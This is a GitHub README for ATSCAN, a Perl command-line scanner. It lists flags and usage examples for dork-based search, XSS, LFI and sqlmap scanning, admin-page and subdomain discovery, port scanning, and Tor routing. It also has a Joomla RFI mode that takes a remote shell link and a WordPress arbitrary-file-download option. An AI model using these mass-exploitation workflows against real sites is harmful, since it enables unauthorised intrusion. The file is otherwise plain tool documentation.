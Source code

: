 <h1 align="center">ATSCAN</h1>
<p align="center"> <b>Search / Site / Server Scanner </b></p>
<center>
<img src="http://i.imgur.com/jUt3Gn7.png" />
<table border="0" cellpadding="0" cellspacing="2" width="100%px">
  <tr>
    <td align="center">Alisam Technology is not responsible for any misuse, damage caused by this script or attacking targets without prior mutual consent!</td>
  </tr>
</table>
</center>
<table border="0" cellpadding="0" cellspacing="2" width="100%px">
  <tr>
    <td width="30%">AUTHOR:</td><td>Alisam@Technology</td>
  </tr>
  <tr>
    <td width="30%">FACE</td><td>facebook.com/Forces.des.tempetes.marocaines</td>
  </tr>
  <tr>
    <td width="30%">YOUTUBE:</td><td>youtube.com/c/AlisamTechnology</td>
  </tr>
  <tr>
    <td width="30%">WITTER:</td><td>twitter.com/AlisamTechno</td>
  </tr>
  <tr>
    <td width="30%">PLUS:</td><td>plus.google.com/+AlisamTechnology</td>
  </tr>
</table>
<p> <b>Description: </b></p>
ATSCAN <br /> SEARCH engine <br />XSS scanner. <br /> Sqlmap. <br /> LFI scanner.<br /> Filter wordpress and Joomla sites in the server. <br />Find Admin page.<br /> Decode / Encode MD5 + Base64. <br />This this my first script im sure is full with mistakes!! 

<p> <b>Libreries to install: </b></p>
ap-get install libxml-simple-perl<br />
aptitude install libio-socket-ssl-perl<br />
aptitude install libcrypt-ssleay-perl<br />

NOTE: Works in linux platforms. Best Run on Ubuntu 14.04, Kali Linux 2.0, Arch Linux, Fedora Linux, Centos | if you use a windows you can download manualy<br />

<p> <b>Download & Executution: </b></p>
git clone https://github.com/AlisamTechnology/ATSCAN</br>
cd ATSCAN</br>
chmod +x ATSCAN</br>
./ATSCAN</br>
OR</br>
$chmod +x atscan.pl </br>
Execute: perl ./atscan.pl</br>
Execute: perl ./atscan.pl --help</br>

<p> <b>Screenshots: </b></p>
<img src="http://i.imgur.com/kAHDYnd.jpg" /><br />
<img src="http://i.imgur.com/atgEOXR.jpg" /><br />
<img src="http://i.imgur.com/dgvdZ6O.jpg" /><br />
<img src="http://i.imgur.com/U1TA0iM.jpg" /><br />

<p> <b>HELP: </b></p>
<table cellpadding="0" cellspacing="2" border="0">
  <tr>
    <td width="20%">--tor</td>
    <td>tor proxy [DEFAULT:socks://localhost:9050] Change if needed!</td>
  </tr>
  
  <tr>
    <td width="20%">-s / -ls</td>
    <td>Search engine</td>
  </tr>
  
  <tr>
    <td width="20%">--mp</td>
    <td>set number of page results to scan</td>
  </tr>
  
  <tr>
    <td width="20%">--xss</td>
    <td>Xss scan</td>
  </tr>
  
  
  <tr>
    <td width="20%">--lfi</td>
    <td>lfi scan</td>
  </tr>
  
  <tr>
    <td width="20%">-t</td>
    <td>Target</td>
  </tr>
  <tr>
    <td width="20%">-l</td>
    <td>List name</td>
  </tr>
  <tr>
    <td width="20%">--exp</td>
    <td>Set exploit</td>
  </tr>
  <tr>
    <td width="20%">--valid</td>
    <td>Text for validate results</td>
  </tr>
  <tr>
    <td width="20%">--sqlmap</td>
    <td>Sqlmaping xss results</td>
  </tr>
  <tr>
    <td width="20%">--sqlmaptor</td>
    <td>Sqlmaping xss results using tor proxy                                                                                    </td>
  </tr>
  <tr>
    <td width="20%">--lfi</td>
    <td>local file inclusion</td>
  </tr>
  <tr>
    <td width="20%">--joomrfi</td>
    <td>get joomla sites with rfi in the server</td>
  </tr>
  <tr>
    <td width="20%">--shell</td>
    <td>shell link [Ex: http://www.site.com/shell.txt]</td>
  </tr>
  <tr>
    <td width="20%">--wpadf</td>
    <td>get wordpress sites with arbitery file download in the server</td>
  </tr>
  <tr>
    <td width="20%">--admin</td>
    <td>get site admin page</td>
  </tr>
  <tr>
    <td width="20%">--shost</td>
    <td>get site subdomains</td>
  </tr>
  <tr>
    <td width="20%">--ports</td>
    <td>scan server ports</td>
  </tr>
  <tr>
    <td width="20%">--start</td>
    <td>start scan port</td>
  </tr>
  <tr>
    <td width="20%">--end</td>
    <td>end scan port</td>
  </tr>
  <tr>
    <td width="20%">--tcp</td>
    <td>tcp ports</td>
  </tr>
  <tr>
    <td width="20%">--udp</td>
    <td>udp ports</td>
  </tr>
  <tr>
    <td width="20%">--all</td>
    <td>complete mode</td>
  </tr>
  <tr>
    <td width="20%">--basic</td>
    <td>basic mode</td>
  </tr>
  <tr>
    <td width="20%">--sites</td>
    <td>sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--wp</td>
    <td>wordpress sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--joom</td>
    <td>joomla sites in the server</td>
  </tr>
  <tr>
    <td width="20%">--upload</td>
    <td>get sites with upload files in the server</td>
  </tr>
  <tr>
    <td width="20%">--zip</td>
    <td>get sites with zip files in the server</td>
  </tr>
  <tr>
    <td width="20%">--st</td>
    <td>string</td>
  </tr>
  <tr>
    <td width="20%">--md5</td>
    <td>convert to md5</td>
  </tr>
  <tr>
    <td width="20%">--encode64</td>
    <td>encode base64 string</td>
  </tr>
  <tr>
    <td width="20%">--decode64</td>
    <td>decode base64 string</td>
  </tr>
  <tr>
    <td width="20%">--isup</td>
    <td>check http status 200</td>
  </tr>
  <tr>
    <td width="20%">--httpd</td>
    <td>print site httpd version</td>
  </tr>
</table>
<p> <b>EXAMPLES: </b></p>
<table cellpadding="0" cellspacing="2" border="0">
  <tr>
    <td>
    <b>Simple search:                                                                                                       </b><BR/>
    -s DORK --mp number of page results to scan<BR/>
    -s <DORK1,DORK2,DORK3..> --mp NUM OF PAGE ERSULTS TO SCAN<BR/> 
    -ls <DORK.txt> --mp NUM OF PAGE ERSULTS TO SCAN to scan from list<BR/>
    <B>Subscan from Serach Engine</B><BR/>
    Xss: -s DORK --mp 1 --xss<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss<BR/>
    Lfi: -s DORK --mp 1 --lfi<BR/>
    Search + Command: -s DORK --mp VALUE --command 'curl -v' --TARGET<BR/>
    <b>Validation</b><BR/>
    Xss: -s DORK --mp 1 --xss --valid TEXT<BR/>
    Lfi: -s DORK --mp 1 --lfi --valid TEXT<BR/>
    Xss: -s DORK --mp 1 --xss --isup<BR/>
    Lfi: -s DORK --mp 1 --xss --isup<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss --valid TEXT<BR/>
    Lfi: -ls DORKS.TXT --mp 1 --lfi --valid TEXT<BR/>
    Xss: -ls DORKS.TXT --mp 1 --xss --isup<BR/>
    Lfi: -ls DORKS.TXT --mp 1 --xss --isup<BR/>
    <b>Use List / Target</b><BR/>
    Xss: -t TARGET --xss<BR/>
    Lfi: -l TARGET --lfi<BR/>
    Xss + Validation: -t TARGET --xss --valid TEXT<BR/>
    Lfi + Validation: -t TARGET --lfi --valid TEXT <BR/>
    Xss + Validation: -l list.txt --xss --isup<BR/>
    Lfi + Validation: -l list.txt --lfi --isup <BR/>
    Find admin page: -t TARGET --admin <BR/>
    Find subdomains: -t TARGET --shost <BR/>
    <b>Server:  </b><BR/>
    Get Server sites: -t IP --mp VALUE --sites <BR/>
    Get Server wordpress sites: -t IP --mp VALUE --wp  <BR/>
    Get Server joomla sites: -t IP --mp VALUE --joom  <BR/>
    Get Server upload sites: -t IP --mp VALUE --upload  <BR/>
    Get Server zip sites files: -t IP --mp VALUE --zip  <BR/>
    WP Arbitry File Download: -t IP --mp VALUE --wpadf  <BR/>
    Joomla RFI: -t IP --mp <1> --joomfri --shell SHELL LINK <BR/>
    Scan basic tcp (quick): -t IP --ports --basic --tcp <BR/>
    Scan basic udp basic (quick): -t IP --ports --basic --udp <BR/>
    Scan basic udp+tcp: -t IP --ports --basic --udp --tcp <BR/>
    Scan complete tcp: -t IP --ports --all --tcp <BR/>
    Scan complete udp: -t IP --ports --all --udp <BR/>
    Scan complete tcp+udp: -t IP --ports --all --udp --tcp <BR/>
    Scan rang tcp: -t IP --ports --start --end --tcp <BR/>
    Scan rang udp: -t IP --ports --start --end --udp <BR/>
    Scan rang udp + tcp: -t IP --ports --start VALUE --end VALUE --udp --tcp <BR/>
    <b>Encode / Decode:  </b><BR/>
    Generate MD5: -st STRING --md5  <BR/>
    Encode base64: -st STRING --encode64  <BR/>
    Decode base64: -st STRING --decode64  <BR/>
    </td>
  </tr>
</table>


